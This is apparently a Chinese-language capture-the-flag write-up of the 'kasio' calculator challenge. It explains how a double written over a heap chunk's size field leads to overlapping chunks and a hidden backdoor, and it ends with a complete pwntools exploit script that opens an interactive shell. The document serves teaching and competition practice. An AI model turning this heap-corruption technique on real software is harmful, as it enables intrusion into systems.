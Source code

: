 ```yaml
---
title: bluewhale2024 - 卡死欧计算器 
date: 2024/5/3 23:44:00
tags:
    - heap - tcache
    - buffer nearby-flow
thumbnail: /assets/bluewhale2024/kasio.png
excerpt: 利用堆块重叠漏洞，通过修改堆块尺寸实现计算器后门。
---
```


{% note %}
李明写的一个简单的表达式计算器，输入诸如`2*(3+4)^5`的式子回车即可进行计算  
就是有时候不太好使不知道为啥就死机了
 李明发现的可以让计算器卡死的最小复现：  
> `()+()+1`  
> `报错： double free or corruption (out)`
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

通过给的提示不难发现，程序将`1.0`这一double值写在了堆块尺寸上，导致了free时的异常，
由此，我们得到了修改堆块尺寸的原语，如果能造成堆块重叠，就能将数字从`num_stack`溢出写到`op_stack`，
使得原本无法输入的#字符出现在`op_stack`上，实现运行后门，具体解释如图所示

![kasio heap layout](/assets/bluewhale2024/kasio.png)

有以下几点可以再解释：
1. 分配堆块大小由token数决定，由于token由数字和操作构成，故一般情况下不能利用
2. 要想获得"0x91"的double值，需使用"0x60"的字面量，看起来有精度损失
3. 需要用`1+(`的方式来将数字push到栈上，直接运算就无法溢出了
4. `()+()+`会导致将数字写入到`num_stack[top]`，而top已经变成-1了，对应堆块的size

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kasio')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20128)
    magic = '4.7430302000759668e-322' # 0x60 -> 0x91
    sharp = '2.0087766792234922e-139' # '########'

    sh.sendlineafter(b'input', b'1+1+1')                    # 0x31, 0x21
    sh.sendlineafter(b'input', b'1+1+1+1')                  # 0x31(free), 0x21, 0x41
    sh.sendlineafter(b'input', f'()+()+{magic}'.encode())   # 0x31 -> 0x91, 0x21, 0x41(free)
    sh.sendlineafter(b'input', f'1+(2+(3+(4+(5+({sharp})))))'.encode())

    sh.clean()
    sh.interactive()
    sh.close()
```
